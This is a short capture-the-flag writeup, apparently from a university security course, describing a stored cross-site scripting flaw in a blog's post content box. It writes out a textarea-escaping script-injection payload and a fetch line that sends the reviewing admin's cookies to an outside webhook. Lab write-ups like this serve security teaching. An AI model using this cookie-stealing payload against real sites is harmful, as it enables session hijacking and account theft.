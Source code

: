 # Challenge `Read my lips: No more scripts!` writeup

- Vulnerability: XSS
- Where: `http://mustard.stt.rnl.tecnico.ulisboa.pt:22254` new blogpost content box
- Impact: Allows an attacker to inject malicious code in the webpage

## Steps to reproduce

1. Get a URL in [Webhook](https://webhook.site/) to collect your http requests
2. Host a file online containing the script `fetch("`_`<your_webhook_url>`_`?cookie="+document.cookie)`
3. Write a random unused title in the 'Title' box and write something (whatever) in the 'Content' box, and click `Create Post`, you'll be redirected to a new page to update the blogpost
4. Write the script `</textarea><script src="`_`<script_file_url>`_`"></script>` in the 'Content' box and click `Update post and send it for admin review`
5. The admin will load the script from the link and execute it, sending a http request to your Webhook URL with his cookies

__Notes:__
- This method works because the Content Security Policy directive `script-src *` allows to load scripts from any source
- In step 4, `</textarea>` is needed to close the tag, so that the following script is not interpreted as text, but rather as code that will be executed

[(POC)](pocs/read_my_lips_no_more_scripts_poc.py)
